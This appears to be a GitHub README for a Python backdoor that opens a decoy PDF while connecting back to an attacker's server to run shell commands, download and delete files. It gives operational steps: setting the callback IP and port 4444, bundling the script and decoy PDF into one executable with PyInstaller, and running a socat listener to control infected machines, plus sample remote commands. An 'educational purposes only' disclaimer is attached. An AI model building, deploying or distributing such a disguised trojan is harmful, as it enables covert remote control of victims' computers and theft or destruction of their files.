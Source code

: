 

<img width="720" height="720" alt="Image" src="https://github.com/user-attachments/assets/0a19fd1f-d280-4886-8326-a3036d9db745" />

📦 Features
Connects to a remote server via TCP

Executes shell commands remotely

Supports directory navigation (cd)

Downloads files (base64-encoded)

Removes files from the system

Opens a PDF file as a decoy

Compatible with PyInstaller bundling

🚀 How It Works
The script changes the working directory to the system's temporary folder.

It opens a PDF file (documento.pdf) using the default viewer.

It connects to a remote server and enters a command loop.

Commands sent from the server are executed locally and results are returned.

🛠️ Usage
1. Prepare the Client
Place documento.pdf in the same directory as the script.

Update the IP and port in the script:

python
HOST = "192.168.1.11"
PORT = 4444
Run the script:

bash
python main.py
Or bundle it with PyInstaller:

bash
pyinstaller --onefile --add-data "documento.pdf;." main.py
2. Set Up the Listener with socat
To receive connections and interact with the backdoor, use socat:

bash
socat -v TCP-LISTEN:4444,reuseaddr,fork STDIO
-v: Verbose output

TCP-LISTEN:4444: Listens on port 4444

reuseaddr: Allows reuse of the port

fork: Handles multiple connections

STDIO: Connects input/output to your terminal

📂 Command Examples
Once connected, you can send commands like:

bash
cd C:\Users\Public
download C:\Users\Public\file.txt
remove C:\Temp\malicious.exe
ipconfig
exit
📄 License
This project is for educational purposes only. Use responsibly and ethically.

